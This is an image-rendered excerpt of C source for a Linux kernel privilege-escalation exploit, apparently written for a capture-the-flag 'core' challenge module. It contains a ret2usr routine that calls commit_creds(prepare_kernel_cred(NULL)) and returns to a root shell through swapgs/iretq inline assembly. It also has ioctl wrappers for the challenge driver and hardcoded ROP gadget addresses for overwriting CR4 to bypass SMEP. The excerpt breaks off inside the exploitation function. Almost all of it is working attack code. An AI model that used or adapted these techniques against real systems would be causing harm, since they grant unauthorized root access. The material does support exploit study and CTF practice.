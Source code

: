 ```c
int (*commit_creds_kfunc)(void *cred);

void ret2usr_attack(void)
{
    prepare_kernel_cred_kfunc = (void*(*)(void*)) prepare_kernel_cred;
    commit_creds_kfunc = (int (*)(void*)) commit_creds;

    (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

    asm volatile(
        "mov rax, user_ss;"
        "push rax;"
        "mov rax, user_sp;"
        "sub rax, 8;"   /* stack balance */
        "push rax;"
        "mov rax, user_rflags;"
        "push rax;"
        "mov rax, user_cs;"
        "push rax;"
        "lea rax, get_root_shell;"
        "push rax;"
        "swapgs;"
        "iretq;"
    );
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0
#define MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET 0xffffffff8106669c
#define POP_RDI_RET 0xffffffff81000b2f
#define AND_RAX_RDI_RET 0xffffffff8102b45b
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;
```